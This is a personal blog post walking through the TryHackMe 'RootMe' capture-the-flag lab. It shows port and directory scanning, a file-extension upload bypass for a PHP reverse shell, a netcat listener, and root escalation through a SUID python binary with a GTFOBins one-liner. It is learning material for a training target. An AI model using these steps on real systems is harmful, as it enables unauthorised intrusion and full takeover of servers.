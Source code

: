 ```yaml
---
title: RootMe
description: This a ctf challenge from tryhackme, im gonna explain here step by step
author: xFraylin
date: 2024-11-26 09:52:00 +0800
categories: [Tryhackme]
tags: [CTF]
image:
  path: https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/rootme.png?raw=true
---
```


## Introduction
First lets start the machine.
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/start.png?raw=true){: width="1200" height="630" }

###  Task 2Reconnaissance 
Let's scan the ports with `nmap`
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/scan.png?raw=true){: width="1200" height="630" }
We found 2 ports, and 2 service's running, `ssh` & `http`

> nmap -sCV `10.10.92.239`
{: .prompt-info }


> 
`-sCV`
1. Scan for open ports
2. identifies the services running on those ports.
3. Executes default NSE scripts.
4. Retrieves banners and configuration details
{: .prompt-tip }

> 
Let's go to enumerate the server with `gobuster`
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/gobuster.jpg?raw=true)
1. `gobuster` dir -u "http://10.10.1.104/" -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
2. `gobuser` Calls gobuster
3. `dir -u url` scans of directory and define the url
4. `-w` Path to the wordlist
5. `/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt` its the wordlists that i choose
{: .prompt-info }

## Reconnaissance answer
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/anwser.jpg?raw=true){: width="1200" height="630" }

##  Task 3 Getting a shell
Find a form to upload and get a reverse shell, and find the flag.
Let's go to the target machine `10.10.1.104` Mine is this one, the Browser displays this
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/target.jpg?raw=true){: width="1200" height="630" }
>
Tryhackme says this `Search for "file upload bypass" and "PHP reverse shell".`
{: .prompt-info }
And then let's go to <https://pentestmonkey.net/tools/web-shells/php-reverse-shell> if you want download the file, or copy that.
Now let's edit the `reverse-shell.php` 
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/php.jpg?raw=true){: width="1200" height="630" }
>
1. $ip = '127.0.0.1';  // CHANGE THIS For the Attackbox, or ovpn
2. $port = 1234;       // CHANGE THIS whatever you want.
{: .prompt-tip }
After that, try to upload the file, example shell.php and return this error
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/not.jpg?raw=true){: width="1200" heigth="630" }
it's because is not permit php (1), then let's try to rename the file `from shell.php to shell.php5` 
There is two way's to change the name of the file, One is by the terminal typing this
```bash
mv shell.php shell.php5
```
With that now its works
But I like tu use `BurpSuite` With burp suite we catch the request, and edit that.
`Note: You have to know basic knowledges of burpsuite to do this.`
Let's catch the `Request`
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/php.png?raw=true){: width="980" heigth="630" }
After that we have to add a 5 at the end `shell.php5`
Have to be like this
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/php5.png?raw=true){: width="980" heigth="630" }

And then Click on `Forward` Like 3 times and the file will be upload.
The browser shows this when the file was upload susccefull
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/yes.jpg?raw=true){: width="980" heigth="630" }

`Now Let's Configure a Listener to get the reverse shell`
```bash
nc -nlvp 4444
```
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/nc.jpg?raw=true)
> `nc` calls netcat
1. `n` Avoids netcat dns resolution
2. `l` Puts Netcat in listening mode, waiting for incoming  connections.
3. `v` Enables Verbose mode | More details 
4. `p` Specifies the port to listen on
5. `4444` The chosen port number.
{: .prompt-info }

> Now That we got a port listening & the file on the web site
{: .prompt-info }
 Go to `/uploads` and click on `shell.php5`
 ![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/shell.jpg?raw=true)
 > We got a reverse shell
 {: .prompt-tip }


 ```bash
 Type this command, `find / -name "user.txt" 2>/dev/null`
 that will return
 path/to/user.txt

find: Command to search for files and directories in the filesystem.
/: Specifies the search starts from the root directory (/) and includes all subdirectories.
-name "user.txt": Searches for a file or directory named user.txt.
2>/dev/null: Redirects error messages to /dev/null, ignoring them (e.g., "Permission denied").
```

 ```bash
 After you find the file user.txt, type 
 cat path/to/user.txt  and you will get the flag
 ```
 ![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/task3.jpg?raw=true)

## Task 4 Privilege Escalation
`Now that we have a shell, let's escalate our privileges to root.`
>
```bash
Tryhackme says this, Search for files with SUID permission, which file is weird?
Then type this. find / -user root -perm /4000
find: Searches for files and directories.
/: Starts the search from the root directory (/) and its subdirectories.
-user root: Filters for files owned by the root user.
-perm /4000: Searches for files with the SUID permission set (4000), allowing them to run
```
{: .prompt-tip }

```Note
There is a lot of suid, but we found some important
```
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/suid.jpg?raw=true)
```bash
/usr/bin/python
```
After we found the suid, go to <https://gtfobins.github.io/> 
In the search type `python` And there is some options, but take this
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/gof.jpg?raw=true)
```bash
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
> Now go to the terminal and use the command to escalate the privileges.
```bash
/usr/bin/./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
{: .prompt-tip }
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/root.jpg?raw=true)
> As you can see I put a commmand 
```bash
whoami 
This identified who you are in the terminal.|  normal user  or root
```
{: .prompt-tip }

```bash
#!/bin/bash
echo "If there are any grammatical errors, sorry Im learning english :)
```